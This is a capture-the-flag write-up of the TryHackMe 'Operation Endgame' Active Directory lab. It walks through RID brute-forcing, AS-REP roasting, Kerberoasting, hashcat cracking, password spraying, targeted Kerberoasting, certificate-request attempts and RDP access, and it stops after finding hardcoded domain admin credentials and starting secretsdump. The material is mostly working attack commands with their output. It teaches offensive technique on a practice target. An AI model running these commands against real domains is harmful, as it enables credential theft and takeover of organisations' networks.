# Operation Endgame TryHackMe Writeup

---

## Machine Information

| Field | Details |
|---|---|
| **Name** | Operation Endgame |
| **Platform** | TryHackMe |
| **OS** | Windows Server 2019 |
| **Difficulty** | Hard |
| **Parent Domain** | thm.local |
| **Child Domain** | ad2.thm.local |

---
> [!Note]
> This writeup is a complete walkthrough detailing every trial, error, and rabbit hole i encountered. hope yall enjoy reading it!
---

## Enumeration

### Nmap

```bash
rustscan -a 10.48.181.177 -u 5000 --accessible -- -sV -Pn -v -n
```

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows AD LDAP (Domain: thm.local)
443/tcp   open  ssl/https?
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0
...
```



Standard Windows DC layout with one note **port 3389 (RDP) is open**. This detail gets filed away and forgotten until it saves the run later. Also present is port 443 with HTTPS, which turns out to leak a CA name via SSL cert error.

### Web Enumeration > Dead End

```bash
curl -s http://10.48.181.177
```

Default IIS splash page. No virtual hosts, no directories of note. Moving straight to SMB.

### SMB Null Session & RID Brute

```bash
nxc smb 10.48.181.177
# Windows 10 / Server 2019 Build 17763 | domain:thm.local | Null Auth:True

nxc smb 10.48.181.177 -u 'guest' -p '' --shares
# IPC$: READ that's it. NETLOGON/SYSVOL no access for guest.

smbclient //$target/IPC$
# Connected but no files listable.
```

No readable shares for guest. But `Null Auth:True` on SMB means RID bruting will work

```bash
impacket-lookupsid guest@10.48.181.177 -no-pass > user_sid.txt
```

Full domain SID: `S-1-5-21-1966530601-3185510712-10604624`

Extracting clean username list:

```bash
grep "SidTypeUser" user_sid.txt | awk -F'\\' '{print $2}' | awk '{print $1}' | tr 'A-Z' 'a-z' > users_clean.txt
```

Got a solid list: administrator, guest, krbtgt, shana_fitzgerald, carey_fields, dwayne_nguyen, brandon_pittman, bret_donaldson, vaughn_martin, zachary_hunt, cody_roy, jerri_lancaster, christian_sanford, sanford_daugherty, and more.

### Password Spray #1: Username = Password > All Failed

First instinct with a fresh user list:

```bash
nxc smb 10.48.181.177 -u users_clean.txt -p users_clean.txt --no-bruteforce
# All STATUS_LOGON_FAILURE
```

Nobody uses their username as their password. Moving on.

### AS-REP Roasting > 5 Hashes, 0 Cracked

Without credentials, AS-REP roasting is the next logical step:

```bash
impacket-GetNPUsers thm.local/ -dc-ip 10.48.181.177 -dc-host thm.local -request
```

Five accounts with pre-auth disabled:
```
SHELLEY_BEARD   > $krb5asrep$23$SHELLEY_BEARD@THM.LOCAL:b5c25df0...
ISIAH_WALKER    > $krb5asrep$23$ISIAH_WALKER@THM.LOCAL:6be05af0...
QUEEN_GARNER    > $krb5asrep$23$QUEEN_GARNER@THM.LOCAL:e0175d23...
PHYLLIS_MCCOY   > $krb5asrep$23$PHYLLIS_MCCOY@THM.LOCAL:fc7f3640...
MAXINE_FREEMAN  > $krb5asrep$23$MAXINE_FREEMAN@THM.LOCAL:4d34d8b4...
```

Five hashes. Ran all through hashcat with rockyou. Zero cracked. These five accounts have pre-auth disabled but strong-enough passwords that rockyou can't crack them.

### Kerberoasting as Guest > CODY_ROY

With no creds and AS-REP exhausted, i tried Kerberoasting with guest user

```bash
impacket-GetUserSPNs thm.local/guest -dc-ip 10.49.131.236 -request -no-pass
```

```
ServicePrincipalName    Name      MemberOf
HTTP/server.secure.com  CODY_ROY  CN=Remote Desktop Users,CN=Builtin,DC=thm,DC=local

$krb5tgs$23$*CODY_ROY$THM.LOCAL$thm.local/CODY_ROY*$e862d2bb...
```

One Kerberoastable account: `CODY_ROY`.

---

## Initial Foothold

### Cracking CODY_ROY > MKO)mko0

```bash
hashcat -m 13100 cody_hash.txt /usr/share/wordlists/rockyou.txt
```



**CODY_ROY : MKO)mko0** cracked in 2 seconds.

```bash
nxc smb 10.49.131.236 -u 'CODY_ROY' -p 'MKO)mko0'
# [+] thm.local\CODY_ROY:MKO)mko0
```

Valid domain user. SMB auth works.

### BloodHound Round 1 (CODY_ROY)

```bash
bloodyad -d thm.local -H 10.49.131.236 -u CODY_ROY -p 'MKO)mko0' get bloodhound
```

Uploading and analyzing the data. A few interesting things emerge from the BloodHound graph:



`CHRISTIAN_SANFORD` owns `READER ADMINS` and has `WriteDacl` on two WinRM-related GPOs affecting 57 objects (20 OUs, 37 users). On paper this is a significant attack path but to use it, we need to compromise CHRISTIAN_SANFORD first.



`ADMINISTRATORS` group membership confirms: `CHRISTIAN_SANFORD` and more are admins. Six high-value targets identified.

### SMB Spider + GPP Modules > Dead Ends

```bash
nxc smb 10.49.131.236 -u 'CODY_ROY' -p 'MKO)mko0' --shares
# NETLOGON: READ, SYSVOL: READ

nxc smb 10.49.131.236 -u 'CODY_ROY' -p 'MKO)mko0' -M spider_plus -o DOWNLOAD_FLAG=True
# 12 files downloaded all GPO policy files (.inf, .pol, .ini, .cmtx)

nxc smb 10.49.131.236 -u 'CODY_ROY' -p 'MKO)mko0' -M gpp_password
# No plaintext passwords found in XML files

nxc smb 10.49.131.236 -u 'CODY_ROY' -p 'MKO)mko0' -M gpp_autologin
# No Registry.xml with AutoLogon credentials

nxc smb 10.49.131.236 -u 'CODY_ROY' -p 'MKO)mko0' -M gpp_privileges
# Extracted GptTmpl.inf policies SeRemoteInteractiveLogonRight: Domain Users
```

The GPP privileges output drops a useful detail that gets logged but not acted on immediately: `SeRemoteInteractiveLogonRight: Domain Users`. Every domain user can RDP. This comes back later.

### Kerberoasting with CODY_ROY > CHRISTIAN_SANFORD (Dead End)

Authenticated Kerberoasting reveals more SPNs:

```bash
impacket-GetUserSPNs thm.local/CODY_ROY:'MKO)mko0' -dc-ip 10.49.141.63 -request
```

```
ServicePrincipalName     Name               MemberOf
HTTP/server.thm.local    CHRISTIAN_SANFORD  Remote Desktop Users
HTTP/server.example.com  CHRISTIAN_SANFORD  Remote Desktop Users
HTTP/server.secure.com   CODY_ROY           Remote Desktop Users
```

`CHRISTIAN_SANFORD` has **two SPNs** that's unusual and suggests a higher-value account. Got the TGS hash. Given the BloodHound intel (admin, owns READER ADMINS, WriteDacl on WinRM GPOs), cracking this would open a lot.



**Hashcat: Status Exhausted.** CHRISTIAN_SANFORD's password is not in rockyou. This path is dead for now.

---

## Lateral Movement Chain of Credential Reuse

### Password Spray #2: CODY_ROY's Password Against All Users

One thing worth trying when you have a cracked password is see if anyone else uses it. Password reuse across accounts is extremely common in enterprise environments.

```bash
nxc smb 10.48.134.138 -u users_clean.txt -p 'MKO)mko0' --continue-on-success
```



```
[+] thm.local\zachary_hunt:MKO)mko0
```

`zachary_hunt` reuses CODY_ROY's cracked password. One user is enough.

### BloodHound Round 2 (ZACHARY_HUNT) > GenericWrite Chain

Lookin back at BloodHound to see what privilege ZACHARY_HUNT user has



**ZACHARY_HUNT has `GenericWrite` on JERRI_LANCASTER.**

`GenericWrite` on a user object means we can write to any non-protected attribute including `servicePrincipalName`. If we set an SPN on JERRI_LANCASTER, she becomes Kerberoastable. This is **Targeted Kerberoasting**.

### Targeted Kerberoasting > JERRI_LANCASTER

```bash
# Download the script
sudo curl -L https://raw.githubusercontent.com/ShutdownRepo/targetedKerberoast/refs/heads/main/targetedKerberoast.py \
  -o /usr/local/bin/impacket-targetedKerberoast
sudo chmod +x /usr/local/bin/impacket-targetedKerberoast

# Set SPN on JERRI_LANCASTER and request TGS in one step
impacket-targetedKerberoast -d thm.local -u zachary_hunt -p 'MKO)mko0' --request-user JERRI_LANCASTER
```

```
[*] Attacking user (JERRI_LANCASTER)
[+] Printing hash for (JERRI_LANCASTER)
$krb5tgs$23$*JERRI_LANCASTER$THM.LOCAL$thm.local/JERRI_LANCASTER*$9aa438de...
```

TGS obtained. The tool automatically sets a temporary SPN on JERRI_LANCASTER, requests a TGS, and returns the hash.

### Cracking JERRI_LANCASTER > lovinlife!

```bash
hashcat -m 13100 jerri_hash.txt /usr/share/wordlists/rockyou.txt
```



**JERRI_LANCASTER : lovinlife!** cracked in 2 seconds.

```bash
nxc smb 10.49.182.89 -u jerri_lancaster -p 'lovinlife!'
# [+] thm.local\jerri_lancaster:lovinlife!
```

### BloodHound JERRI_LANCASTER: Dead End

Checking what JERRI_LANCASTER can do in BloodHound:



JERRI_LANCASTER is the only member of the `READER ADMINS` group. That group looks interesting on paper but has zero local admin or execution privileges.



`WriteOwner` on `READER ADMINS` means JERRI_LANCASTER can take ownership of the group which would let her grant herself `GenericAll` on it. But `READER ADMINS` leads nowhere useful. The group has no local admin rights anywhere, no execution privileges, and no ACEs over privileged objects. CHRISTIAN_SANFORD owns the group but without compromising CHRISTIAN_SANFORD, owning READER ADMINS doesn't help.

Also verified READER ADMINS membership via ldapsearch:

```bash
ldapsearch -H ldap://10.49.182.89 -x -D "jerri_lancaster@thm.local" -w 'lovinlife!' \
  -b "CN=READER ADMINS,OU=GROUPER-GROUPS,DC=THM,DC=LOCAL" -s base '(objectClass=*)' "*" "+"
# member: CN=JERRI_LANCASTER,OU=Tier 2,DC=thm,DC=local
# Confirmed: sole member
```

Dead end. Need a different angle.

### Certipy Rabbit Hole thm-LABYRINTH-CA

Port 443 on the DC leaks something interesting via SSL error:

```bash
curl -I https://10.49.131.236:443
# SSL: certificate subject name 'thm-LABYRINTH-CA' does not match target hostname
```

A CA named `thm-LABYRINTH-CA` is running on this machine. With no `certipy find` output (LDAP required for full enumeration), the only way to probe it is to try requesting certificates directly against the CA. i'm just guessing, maybe the `User` template is configured as ESC1 (allows UPN in SAN), which would let us request a cert impersonating CHRISTIAN_SANFORD and eventually get his NT hash.

**Attempt 1 as ZACHARY_HUNT:**

```bash
certipy-ad req -username 'ZACHARY_HUNT' -password 'MKO)mko0' \
  -ca 'thm-LABYRINTH-CA' -target-ip 10.48.131.138 \
  -template User -upn 'CHRISTIAN_SANFORD@thm.local'
```

```
[*] Got certificate with UPN 'ZACHARY_HUNT@thm.local'
[*] Certificate object SID is 'S-1-5-21-...-1423'
[*] Wrote certificate and private key to 'zachary_hunt.pfx'
```

The cert came back with **ZACHARY_HUNT's UPN**, not CHRISTIAN_SANFORD. The `User` template doesn't allow enrollees to specify an arbitrary UPN it enforces the requesting account's identity. ESC1 does not apply here.

**Attempt 2 as JERRI_LANCASTER:**

```bash
certipy-ad req -username 'jerri_lancaster' -password 'lovinlife!' \
  -ca 'thm-LABYRINTH-CA' -target-ip 10.48.131.138 \
  -template User -upn 'CHRISTIAN_SANFORD@thm.local'
# Network timeouts × 2, then:
# [*] Got certificate with UPN 'JERRI_LANCASTER@thm.local'
```

Same result own UPN returned. The `User` template is not ESC1-vulnerable, or at minimum doesn't allow SAN specification. Without `certipy find` to enumerate the full template list and their configs, this was an educated guess that turned out wrong. Dead end.

### Re-examining Nmap > RDP

Stuck. Let's go back to basics and look at the full port list again. Right there from the beginning

```
3389/tcp  open  ms-wbt-server  Microsoft Terminal Services
```

And from the GPP privileges dump earlier: `SeRemoteInteractiveLogonRight: Domain Users`. Every domain user can RDP. now i have JERRI_LANCASTER's credentials. That's a valid RDP login.

### RDP with JERRI_LANCASTER > C:\Scripts\syncer.ps1

```bash
xfreerdp /v:10.48.131.138 /u:jerri_lancaster /p:'lovinlife!' /cert:ignore
```

Inside the RDP session, enumerate the filesystem:

```
C:\Users> cmdkey /list
# Currently stored credentials: * NONE *

C:\Scripts> dir
05/13/2024  07:23 PM    syncer.ps1

C:\Scripts> type syncer.ps1
```



```powershell
# Import Active Directory module
Import-Module ActiveDirectory

# Define credentials
$Username = "SANFORD_DAUGHERTY"
$Password = ConvertTo-SecureString "RESET_ASAP123" -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential($Username, $Password)

# Sync Active Directory
Sync-ADObject -Object "DC=thm,DC=local" -Source "ad.thm.local" \
  -Destination "ad2.thm.local" -Credential $Credential
```

A PowerShell script that syncs AD objects between `ad.thm.local` (primary) and `ad2.thm.local` (secondary domain), with `SANFORD_DAUGHERTY`'s credentials **hardcoded in plaintext**.

---

## Privilege Escalation ad2.thm.local

### SANFORD_DAUGHERTY Domain Admin

Before acting on the creds, confirm what SANFORD_DAUGHERTY can do. BloodHound data already collected:



`SANFORD_DAUGHERTY` is a **Domain Admin** via `DOMAIN ADMINS` > `ADMINISTRATORS`. The syncer script credentials are DA credentials stored in plaintext on a machine any domain user can RDP into. Clean finding.

### Connecting to ad2.thm.local

Add the secondary domain to `/etc/hosts`:

```bash
echo "10.48.131.138 thm.local dc01.thm.local ad2.thm.local" | sudo tee -a /etc/hosts
```

```bash
nxc smb ad2.thm.local -u 'SANFORD_DAUGHERTY' -p 'RESET_ASAP123' -d 'ad2.thm.local'
```

```
SMB   10.48.131.138   445   AD   [+] ad2.thm.local\SANFORD_DAUGHERTY:RESET_ASAP123 (Pwn3d!)
```

`(Pwn3d!)` local admin or higher on the second domain's DC.

### secretsdump > Local Only (DCSync Dead End)

```bash
impacket-secretsdump 'ad2.thm.local/SANFORD_DAUGHERTY:RESET_ASAP123@ad2.thm.local' \
  -dc-ip 10.48.131.138
```

